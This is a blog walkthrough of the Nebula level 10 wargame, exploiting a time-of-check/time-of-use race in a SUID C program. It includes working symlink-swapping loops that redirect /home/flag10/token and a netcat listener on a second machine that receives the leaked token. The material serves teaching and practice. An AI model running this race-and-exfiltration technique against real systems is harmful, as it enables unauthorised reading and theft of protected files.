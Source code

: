 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 10"
date: "2011-12-11T07:48:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


[Challenge 10](http://exploit-exercises.com/nebula/level10) is another nostalgic one for me. Back when I was first starting with linux, I remember reading about overflows and race conditions.  This challenge is the latter, a race condition. 

<!-- more -->

We're given a C/C++ app to exploit:

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

The problem with this code, is that it first checks to see if the user running the problem has access to the file (on line 24).  It then assumes for the rest of the execution of the program, that we *still* have access to it.  The point of this exercise is to trick the program by switching out the file while the program is running.  Hence a race condition. 

To set this one up, I used 2 machines, my Nebula machine, and another VM running [BackTrack Linux](http://www.backtrack-linux.org).  Any Linux should do, I just had this one handy.  The only requirement is [NetCat](http://nc110.sourceforge.net). 

On the BackTrack machine (10.1.1.132 for me), I ran 2 terminals.  The first contained:

```
root@bt:~# while :; do nc -l -p 18211 >> out.txt; done
```

The second contained:

```
root@bt:~# tail -f out.txt | grep -v ".oO Oo."
```

I ran both of these so that the first one would continuously open up a listening socket connection on port 18211 (per the vulnerable program), and append all information received to "out.txt".  The second command would continuously watch out.txt and output any lines that didn't have the little banner the vulnerable program uses.  That way I didn't get spammed with trash I didn't care about. 

Now on the Nebula machine, I ran 2 more terminals.  In the first, I ran:

```
level10@nebula:~$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```

And the second:

```
level10@nebula:~$ while :; do nice -n 20 ./flag10 /tmp/token10 10.1.1.132; done
```

These commands are pretty simple to pick apart.  They both are endless loops, just like the earlier NetCat session.  The first would create a symbolic link to /tmp/token10.  However, it would alternate between using /tmp/token (a blank file I made), and /home/flag10/token.  The idea is to try using /tmp/token when the access() is called in the vulnerable program, but then have /home/flag10/token be there when we actually send the file.  It's unreliable, but will eventually work.  The second command runs the vulnerable program, passing it the symlinked file and the BackTrack IP.  I used [nice](http://linux.about.com/library/cmd/blcmdl1_nice.htm), to lower the priority as low as possible, so that hopefully the symlinking loop would operate faster. 

When you have all of these terminals running, it's just a matter of time before you get the token sent to you.  Some iterations of flag10 will fail, some will succeed.  Just watch the second terminal on the BackTrack machine, and eventually you'll see the token come over.  You should see this flying across the screen:

{% blockquote %}615a2ce1-b2b5-4c76-8eed-8aa5c4015c27{% endblockquote %}

Just stop all the terminals, and you should be done with this challenge.  I did learn quite a bit on this one, as it was honestly my first race condition I'd ever had to exploit.  My original methodology was to use [GDB](http://www.gnu.org/s/gdb/) to start the program, and set a breakpoint after the initial access() was done.  Then switch the file manually, and resume.  This worked brilliantly, however I learned that when dealing with SUID programs, you can't use GDB on them, unless you run GDB as root.  This is a security design of Linux.  So instead, I had to go with the quirky commands.  I'm still interested in seeing if it could be done with a custom C++ app which would invoke flag10, and attach to the process using ptrace to duplicate my GDB idea.  I just don't know if it'll work or not.
